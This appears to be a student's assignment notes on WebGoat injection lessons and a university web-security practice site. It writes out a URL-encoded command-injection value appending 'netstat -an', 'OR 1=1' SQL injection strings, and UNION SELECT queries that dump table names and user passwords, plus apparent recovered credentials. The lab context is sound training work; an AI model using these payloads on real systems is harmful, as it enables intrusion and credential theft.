










# Assignment 3

* Do the following lessons in WebGoat (you do not have to submit any notes regarding these exercises to blackboard):

	* Injection Flaws - Command Injection

		* This lesson is using a cat command in the background to get the content of certain help-files which you can choose from in a drop down list. By manipulating the input for HelpFile, you can append your own command which gets executed on the server. In this case I just appended the command "& netstat -an ". Double quotes have to be included. This command has to be url encoded and then appended to the actual value for HelpFile. Example: HelpFile=BackDoors.help%22%26%20netstat%20-an%20%22
		* 
		* 

	* Injection Flaws - Numeric SQL Injection
		
		* This lesson is using a simple sql query and specifies the station by its id. By appending OR 1=1 to the where clause, you'll get information about all stations.
		* 

	* Injection Flaws - Log Spoofing
		
		* 

	* Injection Flaws - String SQL Injection
		
		* By appending the following string to the end of the where clause you'll get all entries from user_data: ' OR 1=1--
		* 

	* Injection Flaws - LAB SQL Injection

		* 		
		* 		

* Do the following three exercises on http://websecurity.cs.ru.nl/
	
	* Level 0
		* Base64Password: TkdGbFpqRmxNbUV6
		* 	

	* Level 1
		* Piet:NTY5M2IyYTc2
		* 	

	* Level 2
		* input=1+Union+ALL+SELECT+1,2,3,name+from+sqlite_master
		* the users table became OTg5ZmMyZWM1 table
		* input=1+Union+ALL+SELECT+1,id,name,password+from+OTg5ZmMyZWM1	
		* 

	